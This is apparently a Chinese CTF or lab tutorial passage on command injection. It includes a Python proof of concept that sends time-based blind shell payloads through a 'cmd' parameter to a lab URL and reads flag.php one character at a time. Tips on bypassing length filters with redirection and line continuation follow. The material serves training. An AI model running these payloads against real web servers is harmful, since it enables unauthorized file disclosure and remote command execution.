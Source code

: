 	**注意:**上述命令每一个**空格**都必不可少,不然就会报错

	`if [ $(cat flag.php | awk NR==2 | cut -c 1) == h ];then echo "right";fi`

	`if [ $(cat 1.php | awk NR==2 | cut -c 1) == s ];then sleep 1;fi`

## 使用python脚本帮助运算

poc.py

```
import requests
import time
url = "http://172.21.205.184:18080/class08/1.php"
result = ""
for i in range(1,5):#行号
    for j in range(1,55):#每一行字符的数量
        #ascii码表
        for k in range(32,128):
            k=chr(k)
            #time.sleep(0.1)
            payload = "?cmd=" + f"if [ `cat flag.php | awk NR=={i} | cut -c {j}` == {k} ];then sleep 2;fi"
            try:
                requests.get(url=url+payload, timeout=(1.5,1.5))
            except:
                result = result + k
                print(result)
                break
    result += " "
```



# 长度过滤绕过

## `>`符号和`>>`符号

1.通过`>`创建文件

`echo "benben" > a`

2.`>>`追加内容

`echo "benben" >> a`

输出:

benben

dazhuang

## 命令换行符`\`

在没有写完的命令后加`\`,可以将一条命令写在多行
